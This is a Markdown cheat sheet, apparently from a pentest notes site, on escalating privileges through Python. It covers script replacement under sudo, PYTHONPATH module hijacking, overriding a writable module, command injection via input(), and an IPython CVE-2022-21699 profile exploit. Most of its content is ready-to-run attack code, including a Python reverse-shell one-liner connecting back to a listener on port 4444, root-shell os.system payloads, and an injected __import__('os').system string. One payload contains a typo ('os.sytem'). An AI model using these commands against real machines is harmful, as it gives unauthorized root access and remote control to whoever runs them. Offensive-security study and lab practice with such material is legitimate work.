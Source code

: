```yaml
---
title: Python Privilege Escalation
description: Python binary is vulnerable to privilege escalation in some situations.
tags:
    - Privilege Escalation
refs:
    - https://www.hackingarticles.in/linux-privilege-escalation-python-library-hijacking/
date: 2023-03-29
draft: false
---
```


## Sudo PrivEsc

### Replace with Arbitrary Script

```bash
sudo -l

(root) NOPASSWD: /usr/bin/python3 /home/<username>/example.py
```

If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

```bash
rm -rf /home/<username>/example.py
touch /home/<username>/example.py
```

We can insert arbitrary code in the new script. For example,

```python
import os;os.system('/bin/bash')
```

### Module Hijacking

Assume the python script can be executed as root with **SETENV,NOPASSWD**.  
For example,

```sh
sudo -l

(root) SETENV: NOPASSWD: /usr/bin/python3 /opt/example.py
```

With **SETENV**, we can change **PYTHONPATH** when executing the script, and insert malicious script to the module which is imported in the script.  
First off, check what module is imported in the python script (e.g. /opt/example.py here).

```python
import random

print(random.randint(1, 8))
```

We can forge the imported module.

```sh
vim /tmp/random.py
```

The content of the module is below. This is a script that executes reverse shell.  
Replace **`<local-ip>`** with your local ip address.

```sh
import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

After that, in another local terminal, start listener for getting a shell.

```sh
nc -lvnp 4444
```

Then run the python script with updating **PYTHONPATH** in the remote machine.

```sh
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /opt/example.py
```

By setting **"PYTHONPATH=/tmp/"**, the python script will import modules from **/tmp/** directories so the **"random"** module is imported from **/tmp/random.py**.  
Finally, we should get a shell in local terminal.

### Module Overriding

If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.  
First, check what modules the Python script uses.

```bash
# example.py
import random
```

Assume the **“random”** module is used in the script.  
Find the path of the module and check if it’s writable.

```bash
find / -name "random.py" 2>/dev/null
ls -al /usr/lib/python3.6/random.py
```

If we know we can modify it, inject arbitrary code in this module.  
Assume the **“random”** module path is **`/usr/lib/python3.6/random.py`**.

```python
# /usr/lib/python3.6/random.py
import os;os.sytem('/bin/bash')
```

Then execute the Python script and we can spawn the root shell.

<br />

## OS Commands in input()

If you find the executable which is created in Python.  
For instance,

```sh
./executable

Enter some input:
```

You can enter OS commands in some input.

```py
__import__('os').system('id')
```

For example,

```sh
./executable

Enter some input: __import__('os').system('id')
```

<br />

## IPython Privilege Escalation ([CVE-2022-21699](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x))

Interective Python (IPython) is a command shell for interective computing in multiple programming languages.

```sh
# -m: file mode (rwx)
mkdir -m 777 /tmp/profile_default
mkdir -m 777 /tmp/profile_default/startup
echo 'print("stealing your private secrets")' > /tmp/profile_default/startup/exploit.py
```
